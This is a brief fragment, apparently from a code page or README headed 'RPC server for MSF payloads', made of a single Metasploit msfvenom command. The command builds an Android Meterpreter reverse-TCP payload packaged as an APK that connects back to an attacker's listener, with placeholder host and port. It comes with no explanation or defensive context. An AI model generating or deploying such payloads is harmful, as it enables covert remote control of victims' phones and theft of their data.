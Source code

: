 RPC SERVER FOR MSF PAYLOADS

# connection 
./msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_ip_address> LPORT=<your_listener_port> -o payload.apk
